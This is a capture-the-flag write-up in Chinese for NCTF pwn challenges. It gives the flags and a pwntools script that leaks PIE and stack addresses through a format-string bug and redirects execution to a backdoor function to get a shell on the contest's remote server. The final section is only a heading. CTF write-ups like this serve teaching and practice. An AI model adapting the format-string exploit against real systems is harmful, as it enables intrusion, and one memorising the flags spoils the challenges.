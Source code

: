 # Pwn

## hello_pwn

我也不懂为啥shell上直接连会不显示，pwntools中hexdump出来好像是一个0xd的ascii字符？

```
NCTF{hell0__play}
```

## pwn me 100 years! (Ⅰ)

yes后零字节填充，再扣6

```
NCTF{PWN_100ye4rs_2333!}
```

## pwn me 100 years! (Ⅱ)

输入name长于16后，下一次输出可以造成格式化字符串利用

泄漏pie和stack

下一波格式化字符串漏洞改写rbp-8位置指向后门函数

```python
from pwn import *
context.terminal=['tmux','splitw','-h']
context.log_level='debug'
p=process("./pwn_me_2")
p=remote("139.129.76.65","50005")
payload="a"*0x10+"%14$p.%15$p"
p.sendline(payload)
p.recvuntil("preparing......\n")
stack=int(p.recv(14),16)-8
p.recvuntil(".")
shell=int(p.recv(14),16)-0xccd+0xb9d
print hex(stack)
print hex(shell)
payload="%"+str(shell&0xffff)+"c%8$hn"
payload=payload.ljust(16,'\x00')
payload+=p64(stack)
#Egdb.attach(p,"breakrva 0xC2C")
p.sendline(payload)
p.recv()
p.interactive()
```

```
NCTF{rrr_loves_pwn_and_100years}
```

## pwn me 100 years! (Ⅲ)
